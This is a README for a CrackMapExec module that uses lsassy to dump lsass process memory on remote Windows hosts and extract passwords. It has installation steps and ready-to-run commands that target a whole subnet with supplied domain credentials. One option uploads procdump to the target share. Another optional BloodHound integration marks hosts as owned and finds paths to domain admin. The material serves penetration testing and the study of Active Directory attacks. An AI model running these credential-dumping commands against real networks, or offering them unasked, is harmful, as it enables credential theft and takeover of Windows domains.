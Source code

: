 # lsassy CrackMapExec Module

This CME module uses **lsassy** to remotely extract lsass password, and optionnaly interacts with Bloodhound to **set compromised hosts as owned** and check if compromised users have a **path to domain admin**.

![CME Module example](/assets/cme_lsassy.gif)

## Requirements

* Python2.7
  - [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
* Python3.6+
  - [lsassy](https://github.com/Hackndo/lsassy/)


## Installation

* Copy `lsassy.py` in `[CrackMapExec Path]/cme/modules`
* Reinstall CrackMapExec using python2.7 `python setup.py install`

```bash
git clone https://github.com/Hackndo/lsassy.git
cd lsassy/cme
cp lsassy.py /opt/CrackMapExec/cme/modules/
cd /opt/CrackMapExec
python setup.py install
```

## Usage

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy
```

You can set BloodHound integration using `-o BLOODHOUND=True` flag. This flag enables differents checks :
* Set "owned" on BloodHound computer nodes that are compromised
* Detect compromised users that have a **path to domain admin**

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o BLOODHOUND=True
```

You can check available options using

```
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy --options
[*] lsassy module options:

            TMP_DIR             Path where process dump should be saved on target system (default: C:\Windows\Temp\)
            SHARE               Share to upload procdump and dump lsass (default: C$)
            PROCDUMP_PATH       Path where procdump.exe is on your system (default: /tmp/)
            PROCDUMP_EXE_NAME   Name of the procdump executable (default: procdump.exe)
            BLOODHOUND          Enable Bloodhound integration (default: false)
            NEO4JURI            URI for Neo4j database (default: 127.0.0.1)
            NEO4JPORT           Listeninfg port for Neo4j database (default: 7687)
            NEO4JUSER           Username for Neo4j database (default: 'neo4j')
            NEO4JPASS           Password for Neo4j database (default: 'neo4j')

```

Options can be set using

```bash
cme smb dc01.adsec.local -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o PROCDUMP_PATH='/home/pixis/Tools/' PROCDUMP_EXE_NAME='procdump.exe'
```

Have fun
